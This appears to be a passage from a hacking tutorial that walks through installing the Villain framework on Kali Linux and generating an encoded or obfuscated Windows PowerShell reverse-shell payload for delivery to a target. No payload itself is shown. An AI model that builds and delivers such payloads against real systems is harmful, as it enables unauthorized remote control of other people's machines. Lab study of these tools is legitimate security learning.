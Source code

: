
## 2️⃣ Prepare Kali Attacker

### Update system:

```bash
sudo apt update && sudo apt upgrade -y
```

### Clone Villain:

```bash
git clone https://github.com/keralahacker/Villain.git
cd Villain
```

> 📶 If GitHub is blocked (e.g. school Wi-Fi), use a VPN or mobile hotspot.

### Install Python requirements:

```bash
pip install -r requirements.txt
sudo pip install -r requirements.txt --break-system-packages
```

> If it fails, continue to the next step.

### Start Villain:

```bash
python3 Villain.py
```

You should see the `villain>` prompt.

---

## 3️⃣ Build & Deliver Your Payload

### 3.1 Generate a Reverse Shell Payload

**Syntax:**

```bash
villain> generate payload=<OS/handler/template> lhost=<YOUR_IP> [encode|obfuscate]
```

| Element   | Meaning                  | Example                   |
| --------- | ------------------------ | ------------------------- |
| OS        | Target system            | `windows`                 |
| handler   | Shell type               | `reverse_tcp`             |
| template  | Payload script type      | `powershell`              |
| lhost     | Kali IP or interface     | `192.168.56.10` or `eth0` |
| encode    | Base64-style obfuscation | *(optional)*              |
| obfuscate | String-twisting stealth  | *(optional)*              |
